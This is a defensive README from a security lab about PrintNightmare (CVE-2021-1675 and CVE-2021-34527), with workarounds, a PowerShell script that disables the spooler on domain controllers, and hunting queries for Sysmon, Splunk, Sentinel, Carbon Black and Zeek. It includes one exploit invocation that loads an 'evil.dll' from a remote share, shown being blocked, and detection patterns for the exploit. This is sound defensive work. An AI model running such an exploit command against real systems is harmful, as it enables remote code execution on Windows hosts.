



# From [Lares](https://lares.com) Labs: Detection & Remediation Information for CVE-2021-1675 & CVE-2021-34527

This repo contains an EVTX sample of the CVE-2021-1675 attack as well as a minimal Sysmon configuration file that can be used to generate the relevant telemetry.

Please note that these rules may be circumvented - please patch as appropriate and disable the printer spooler service on domain controllers.

# Workaround Fix
The patch released by Microsoft does not unfortunately fix the issue, therefore a workaround fix can be applied by disabling the printer spooler service. Here's how to do it on both GPO and PowerShell.

## Removal of Authenticated Users from Pre-Windows 2000 Compatible Access
Another fix/workaround is to remove authenticated users from `Pre-Windows 2000 Compatible Access` as discovered by [Dirk-jan](https://twitter.com/_dirkjan/status/1410618720460754947?s=21).



Ensure the "Authenticated Users" groups are not members of the "Pre-Windows 2000 Compatible Access group". (By default, these groups are not included in current Windows versions.) as shown in the screenshot below there should be no members:



If in doubt as to how to do this, the following steps can be taken:

1. Open "Active Directory Users and Computers" (available from various menus or run "dsa.msc").
2. Expand the domain being reviewed in the left pane and select the "Builtin" container.
3. Double-click on the "Pre-Windows 2000 Compatible Access" group in the right pane.
4. Select the "Members" tab.
5. If the "Anonymous Logon", "Authenticated Users" or "Everyone" groups are members, select each and click "Remove".

## GPO
The following GPO can be set to deny client connections to the spooler, which is a potential work around where disabling the spooler service altogether might not be an option. This has been tested against domain controllers and endpoints(W7/W10) in a lab environment and users can still add/remove printers and print however it stops the exploit from working. Note: It is also understood that this GPO also fixes[ CVE-2021-34527 as noted in Microsoft's vulnerability page](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527).

`Computer Configuration -> Administrative Templates -> Printers -> Allow Print Spooler to accept client connections`
set this to Disabled:


Then restart the spooler service on the affected host. All going well the exploit will be denied access:

```python
./CVE-2021-1675.py lares.labs/lowpriv@192.168.1.157 '\\certer.lares.labs\share\evil.dll'                                                                                    1 ⨯
Password:
[*] Try 1...
[*] Connecting to ncacn_np:192.168.1.157[\PIPE\spoolss]
[-] Connection Failed
```

## PowerShell
Adapted [0gtweet's script](https://twitter.com/0gtweet/status/1410150462842544130) to use ADDomainController to pull all DCs from Domain
```powershell
# the script STOP and DISABLES Print Spooler service (aka #PrintNightmare) on each server from the list below IF ONLY DEFAULT PRINTERS EXIST.
# revert if you need: go to services.msc, find the "print spooler" service, change startup type to "automatic" and start the service.
# Source: https://github.com/gtworek/PSBits/blob/master/Misc/StopAndDisableDefaultSpoolers.ps1
#
# Requirements RSAT
# Get-Module -Name ActiveDirectory
# Import-Module -Name ActiveDirectory

$computers = Get-ADDomainController -filter * | %{ $_.name }

foreach ($computer in $computers)
{
    Write-Host "Processing $computer ..." 
    $service = Get-Service -ComputerName $computer -Name Spooler -ErrorAction SilentlyContinue
    if (!$service)
    {
        Write-Host "Cannot connect to Spooler Service on $computer. Skipping." -ForegroundColor Yellow
        continue
    }
    if ($service.Status -ne "Running")
    {
        Write-Host ("Service status is: """ + $service.Status + """. Skipping.") -ForegroundColor Yellow
        continue
    }
    $printers = (Get-WmiObject -class Win32_printer -ComputerName $computer)
    if (!$printers)
    {
        Write-Host "Cannot enumerate printers. Skipping." -ForegroundColor Yellow
        continue
    }

    $disableSpooler = $true
    foreach ($DriverName in ($printers.DriverName))
    {
        if (($DriverName -notmatch 'Microsoft XPS Document Writer') -and ($DriverName -notmatch 'Microsoft Print To PDF'))
        {
            Write-Host "  Printer found: $DriverName" -ForegroundColor Green
            $disableSpooler = $false
        }
    }
    if ($disableSpooler)
    {
        Write-Host "Only default printers found. Stopping and disabling spooler..." -ForegroundColor DarkCyan
        (Get-Service -ComputerName $computer -Name Spooler) | Stop-Service -Verbose
        Set-Service -ComputerName $computer -Name Spooler -StartupType Disabled -Verbose

    }
    else
    {
        Write-Host "Non-default printers found. Skipping." -ForegroundColor Green
    }
}
```

# Sysmon Config File

The provided Sysmon configuration [CVE-2021-1675.xml](CVE-2021-1675.xml) file can be installed with Sysmon Config Pusher: https://github.com/LaresLLC/SysmonConfigPusher

# Splunk Query

```xml
index=sysmon Image="C:\\Windows\\System32\\spoolsv.exe" 
| stats values(ImageLoaded),values(TargetObject),values(Details),values(TargetFilename)
```
# KQL Query for Sentinel / MDE via Olaf Hartong
```
let serverlist=DeviceInfo
| where DeviceType != "Workstation"
| distinct DeviceId;
let suspiciousdrivers=DeviceImageLoadEvents
| where DeviceId in (serverlist)
| where FolderPath startswith @"c:\windows\system32\spool\drivers"
| distinct SHA1
| invoke FileProfile(SHA1, 1000) 
| where GlobalPrevalence < 50 and IsRootSignerMicrosoft != 1 and SignatureState != "SignedValid";
suspiciousdrivers
| join kind=inner (DeviceImageLoadEvents
| where DeviceId in (serverlist)
| where FolderPath startswith @"c:\windows\system32\spool\drivers") on SHA1
| where InitiatingProcessFileName != "ccmexec.exe"
```

Source: https://twitter.com/olafhartong/status/1410229699993874442

# Zeek Observations 

## Tool Used: https://github.com/cisagov/Malcolm

File transfer of DLL: 


NTLM Authentication from "Attacking" Machine:


Relevant RPC Calls:




- [PCAP File Available](zeek/PrintNightmare.pcap)

- [Zeek dce_rpc.log](zeek/dce_rpc.log)

# Carbon Black Hunting Query for CVE-2021-1675 
Source: https://github.com/mrezqi/CVE-2021-1675_CarbonBlack_HuntingQuery/blob/main/README.md

- 1 Based on Sigma rule on detecting the POC code
```
filemod_name:c\:\\windows\\system32\\spool\\drivers\\x64\\3\\old\\1\\123
```
- 2 Based on Sigma rule on detecting the POC code
```
(modload_name:c\:\\windows\\system32\\spool\\drivers\\x64\\3* OR modload_name:c\:\\windows\\system32\\spool\\drivers\\x64\\3\\old*) AND parent_cmdline:spoolsv\.exe
```
- 3 Based on Sigma rule on detecting the POC code
```
(modload_name:c\:\\windows\\system32\\spool\\drivers\\x64\\3* OR modload_name:c\:\\windows\\system32\\spool\\drivers\\x64\\3\\old*) AND process_name:spoolsv\.exe
```
- 4 Detecting file events (unsigned), adjust this to your baseline. I did not specify driver path on purpose here since the exploitation and post-exploitation is still a bit unclear. Make sure to adjust this to your baseline (known hash, etc).
```
process_name:spoolsv\.exe AND NOT filemod_publisher_state:FILE_SIGNATURE_STATE_SIGNED
```
- 5 Detecting file events (signed by non MS), adjust this to your baseline
```
process_name:spoolsv\.exe AND filemod_publisher_state:FILE_SIGNATURE_STATE_SIGNED AND NOT filemod_publisher:"Microsoft Windows*"
```

# Alternative approach

A generic way to hunt for Print Spooler exploitation is looking for error generated by print spooler due to loading of the payload DLL. This can be done either through looking for spawning of *WerFault.exe* by *spoolsv.exe* or generation of Event ID 7031 showing unexpected termination of print spooler service.

## Splunk Query

```
((index=sysmon EventCode=1 
ParentImage="C:\\Windows\\System32\\spoolsv.exe" Image="C:\\Windows\\System32\\WerFault.exe") 
OR (index=windows Channel=System EventCode=7031 
Message="The Print Spooler service terminated unexpectedly"))
```

# References
- https://twitter.com/ionstorm/status/1410258694386880518
- https://twitter.com/dez_/status/1410298162548559875
- https://twitter.com/markus_neis/status/1410255678996942854
- https://twitter.com/cyb3rops/status/1410250996362715137
- https://twitter.com/gentilkiwi/status/1410066827590447108
- https://twitter.com/wdormann/status/1410198834970599425
- https://twitter.com/NathanMcNulty/status/1410289115354914820
- https://twitter.com/mvelazco/status/1410291741241102338
- https://twitter.com/StanHacked/status/1410527329839980547
- https://twitter.com/_dirkjan/status/1410618720460754947
- https://github.com/mrezqi/CVE-2021-1675_CarbonBlack_HuntingQuery

Domain Controller Versus Non-Domain Controller Observations via Benjamin Delpy: 

- https://twitter.com/gentilkiwi/status/1410614489167269892

Very handy flow chart via [Stan Hegt](https://twitter.com/StanHacked) of [Outflank](https://twitter.com/OutflankNL)

- https://twitter.com/StanHacked/status/1410922404252168196

New CVE Assignment from Microsoft:

- https://twitter.com/msftsecresponse/status/1410768945590636548


